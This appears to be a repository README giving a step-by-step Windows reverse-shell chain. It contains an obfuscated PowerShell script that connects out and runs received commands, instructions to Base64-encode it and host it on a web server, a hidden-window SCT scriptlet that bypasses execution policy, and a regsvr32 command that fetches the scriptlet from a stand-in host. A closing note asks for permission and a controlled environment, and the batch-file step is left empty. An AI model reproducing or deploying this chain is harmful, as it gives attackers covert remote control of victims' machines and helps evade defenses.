 # Step-by-Step Simulation Guide. Note: Files available for adapting in the repository.

1. Create the Reverse Shell PowerShell Script
Create a file named reverse_shell.ps1 with the following content:

param (
    [string]$ip,
    [int]$port
)

# Obfuscated variable names
$A = 'Get'+'Stream'
$C = [System.Text.Encoding]::'ASCII'
$b = 0..65535 | % {0}
$Q = 'System.Net.Sockets.TCPClient'
$w = 'Re'+'ad'
$O = 'Wr'+'ite'
$F = 'System.Text.ASCIIEncoding'

$client = New-Object $Q($ip, $port)
$stream = $client.$A()
while (($i = $stream.$w($b, 0, $b.Length)) -ne 0) {
    $d = (New-Object -TypeName $F).GetString($b, 0, $i)
    $S = (iex $d 2>&1 | Out-String)
    $R = $S + "PS " + (pwd).Path + "> "
    $f = $C.GetBytes($R)
    $stream.$O($f, 0, $f.Length)
    $stream.Flush()
}
$client.Close()



2. Encode the Script to Base64
Run the following PowerShell commands to encode the script:

$script = Get-Content -Path .\reverse_shell.ps1 -Raw
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$encoded = [Convert]::ToBase64String($bytes)
$encoded

# Copy the resulting Base64 string.

3. Create the Batch File
Create a file named run_reverse_shell.bat with the following content. Replace <Base64_encoded_string> with the Base64 string you copied:

4. Host the Files on a Web Server
Upload run_reverse_shell.bat to your web server.
Ensure it is accessible, e.g., http://yourserver.com/run_reverse_shell.bat.

5. Create the SCT File
Create a file named reverse_shell.sct with the following content. Replace http://yourserver.com/run_reverse_shell.bat with the actual URL of your hosted batch file, and replace attacker_ip and attacker_port with your attacker's IP and port:
<scriptlet>
  <registration>
    <script language="JScript">
      <![CDATA[
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("cmd.exe /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -File http://yourserver.com/run_reverse_shell.bat attacker_ip attacker_port");
      ]]>
    </script>
  </registration>
</scriptlet>

Upload reverse_shell.sct to your web server.
Ensure it is accessible, e.g., http://yourserver.com/reverse_shell.sct.

6. Execute the SCT File using regsvr32
On the target machine, run the following command to execute the SCT file:

regsvr32 /s /i:http://yourserver.com/reverse_shell.sct scrobj.dll

7. Establish the Reverse Shell Connection
When the SCT file is executed, it will download and run the batch file, which will decode and execute the PowerShell script to establish a reverse shell connection to the specified IP and port.


# Important Notes:
Ethical Use: Ensure you have explicit permission to test systems with this script. Unauthorised use is illegal and unethical.
Controlled Environment: Use a controlled environment for testing.
Troubleshooting: Keep a non-obfuscated version of the scripts for troubleshooting and maintenance.
